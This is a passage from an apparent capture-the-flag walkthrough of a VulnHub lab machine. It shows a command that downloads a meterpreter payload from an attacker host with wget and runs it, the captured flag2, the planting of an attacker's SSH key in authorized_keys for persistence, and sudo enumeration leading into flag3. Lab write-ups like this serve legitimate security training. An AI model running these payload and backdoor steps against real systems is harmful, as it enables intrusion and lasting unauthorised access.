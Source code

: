 So let's download a meterpreter shell and start it:

```
shell "/usr/bin/rm -f /tmp/meterpreter ; /usr/bin/wget -O /tmp/meterpreter http://192.168.56.3/meterpreter ; chmod +x /tmp/meterpreter; /tmp/meterpreter"
```

```
meterpreter > sysinfo
Computer     : 192.168.56.2
OS           : Ubuntu 14.04 (Linux 3.13.0-101-generic)
Architecture : x64
Meterpreter  : x86/linux
```

Now we can get the next flag

```
cat flag2
flag2{y0u'r3_4_5upyb07_n00b_m8}
```

Let's also add a SSH key to the `authorized_keys` so we can have a look with a proper shell as the user `rasta`

```
mkdir ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyXvfW0bhRfSIPDn6kHkn8qggMuDKTTMJEFweBWv7qJ5FKB+QbmfsjASOQPZBIsc6248pCUm3yfzfvRAUyXICD4Dcsz+Zex9TAKJFLc4W6dglZlEchOqFKWE8bpWHgzf4shFh/2/utcWtAxMJb+5+uYGyATBtjWeB3BsLVGaB3djow6ymxdl/V40qR/xOzfoO2U2mDJrG8iYPVkSHs2Rcfu0vnEb5XOWZ7qvhUgrmh/c/M5kNjH6f5/KJJkKXAfcMDwRV81EpznNOD2ddJxXBzgzpYU5zx21GDrTQE76N5NJR9L9ePtorVHWDAn8bfKo7K3Y2n4LjO8wL/cFVlXdd/ root@kali" > ~/.ssh/authorized_keys
```

# flag3

After having a look at the users sudo rights we can see we are allowed to run a python script as the user `vulnhub`:

```
rasta@DickDastardly:/home$ sudo -l
Matching Defaults entries for rasta on DickDastardly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rasta may run the following commands on DickDastardly:
    (vulnhub) NOPASSWD: /usr/bin/python /usr/local/sbin/util.py
```

So let's try it out:

```
sudo -u vulnhub /usr/bin/python /usr/local/sbin/util.py
```

We get the `Admin Helper` application:

```
 ----------------
|  Admin Helper  |
|	dev 0.1  |
 ----------------

1 whoami
2 List Directory
3 Coffee
q Exit
```
